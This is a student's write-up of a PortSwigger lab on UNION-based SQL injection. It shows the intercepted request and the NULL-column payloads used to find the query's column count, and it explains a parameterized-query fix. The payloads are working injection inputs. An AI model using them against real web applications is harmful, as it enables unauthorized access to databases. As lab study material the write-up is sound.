 # SQL Injection - UNION Attack: Identify Column Count

## Goal:
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.

---

## Process

### 1. Intercept the GET request using Burp Suite
```http
GET /filter?category=Corporate+gifts HTTP/2
```

### 2. Modify the category parameter to inject SQL

```sql
' UNION SELECT NULL--
```

this displayed an error "Internal Server Error"

```sql
' UNION SELECT NULL,NULL--
```
this also displayed an error "Internal Server Error"

```sql
' UNION SELECT NULL,NULL,NULL--
```
this loaded the webpage normally,indicating the original query returns 3 columns, and the payload now matches that structure.

### 3. Explanation

`' UNION SELECT NULL,NULL,NULL--` closes the string with `'`, adds a `UNION SELECT` clause with 3 columns (`NULL,NULL,NULL`), comments out the rest of the query using `--`.

**The SQL query becomes:**

```sql
SELECT * FROM products WHERE category = 'Corporate gifts' UNION SELECT NULL,NULL,NULL--' AND released = 1
```

Now the injected query structure is valid (matches the original query structure), and the page loades correctly.

---

## How to fix this vulnerability

**Use Parameterized Queries (Prepared Statements)**: 

Parameterised query treat user input as data, which prevents injection. Never build SQL statements by directly concatenating user input. 

Check syntax [here](/PortSwigger-web-security-academy/SQL-injection/01-sqli-where-clause.md#how-to-fix-this-vulnerability)

---

## Reflection

Learned the first step of a UNION-based SQL injection: determining the number of columns required for a valid `UNION SELECT` query.

---

## Notes

`ORDER BY 1`, `ORDER BY 2`, etc., can also be used to determine the comumn count. However,when using ORDER BY, the page loads normally until the number exceeds the actual column count — then it shows an error.

`--` comments out the rest of the query. On MySQL, `--` should be followed by a space. Alternatively, `#` can also be used to identify a comment.

[SQLi cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

---